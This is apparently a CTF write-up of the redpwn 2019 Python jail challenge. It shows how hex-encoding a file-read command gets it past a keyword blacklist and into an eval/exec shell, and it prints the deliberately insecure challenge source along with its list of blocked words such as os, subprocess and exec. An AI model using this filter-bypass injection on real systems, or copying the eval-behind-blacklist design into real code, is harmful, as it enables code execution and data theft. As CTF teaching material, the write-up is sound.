 In this misc challenge with the description:
```
When has a blacklist of insecure keywords EVER failed?

nc chall2.2019.redpwn.net 6006
```
we are also given a blacklist of words (look at blacklist.txt) that we can't use in this python shell. Let's try to open a file in the classic way:

```
wow! there's a file called flag.txt right here!
>>> print(open('flag.txt').read())
That's not allowed here
>>>
```

The blacklist is actually working, let's try to put random things to raise errors:

```
wow! there's a file called flag.txt right here!
>>> asd
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'asd' is not defined
```

Here we can see that there is an eval statement, let's assume that the blacklist control is naive as:

```python
for x in blacklist:
    if x in readed:
        #error handling
```

we can bypass the check passing the file reading statement encoded in some way, let's try with hexadecimal

```python
print(open('flag.txt').read())
```

in hex become

```python
"7072696e74286f70656e2827666c61672e74787427292e72656164282929"
```

so we should send

```python
"7072696e74286f70656e2827666c61672e74787427292e72656164282929".decode('hex')
```

```
wow! there's a file called flag.txt right here!
>>> "7072696e74286f70656e2827666c61672e74787427292e72656164282929".decode('hex')
flag{bl4ckl1sts_w0rk_gre3344T!}
```

P.S: Let's have fun dumping the software used for this challenge using:

```
print(open('jail1.py').read())
"7072696e74286f70656e28276a61696c312e707927292e72656164282929"
"7072696e74286f70656e28276a61696c312e707927292e72656164282929".decode('hex')
```

The code used for this challenge is:
```python
#!/usr/bin/env python 

from __future__ import print_function

print("wow! there's a file called flag.txt right here!")
banned = [
    "import",
    "ast",
    "eval",
    "=",
    "pickle",
    "os",
    "subprocess",
    "i love blacklisting words!",
    "input",
    "sys",
    "windows users",
    "print",
    "execfile",
    "hungrybox",
    "builtins",
    "open",
    "most of these are in here just to confuse you",
    "_",
    "dict",
    "[",
    ">",
    "<",
    ":",
    ";",
    "]",
    "exec",
    "hah almost forgot that one",
    "for",
    "@"
    "dir",
    "yah have fun",
    "file"
]

while 1:
    print(">>>", end=' ')
    data = raw_input()
    for no in banned:
        if str(no).lower() in str(data).lower():
            print("That's not allowed here")
            break
    else: # this means nobreak
        data = eval(data)
        if("code" not in str(data)):
            data = str(data)
        exec(data)
```